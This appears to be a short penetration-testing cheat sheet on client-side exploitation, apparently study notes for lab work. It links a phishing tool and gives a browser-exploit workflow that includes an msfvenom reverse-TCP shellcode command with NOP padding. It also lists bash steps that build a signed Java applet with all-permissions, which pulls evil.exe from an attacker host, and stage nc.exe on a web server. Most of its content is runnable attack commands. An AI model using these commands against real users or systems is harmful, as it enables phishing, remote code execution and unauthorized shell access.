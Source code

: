 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 101
---
```


> **Phishing**

* [My Phishing Tool](https://github.com/BinaryExile/Scripts/tree/master/Phishing)

> **Browser Exploit**

* Passive: Use https://extremetracking.com/?free to determine user agent
* Active: Call or Phishing
* Download exploit
* service apache2 start
* Generate new shellcode that's the same size or smaller:<br> <code> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none </code>
* Pad as needed with <code> %u9090</code>

> **Signed Java App**

{% highlight bash %}
javac -source 1.7 -target 1.7 Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jar cvf Java.jar Java.class
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/nc.exe
{% endhighlight %}

* [java.java](https://raw.githubusercontent.com/BinaryExile/Scripts/master/exploits/client%20side/java.java)
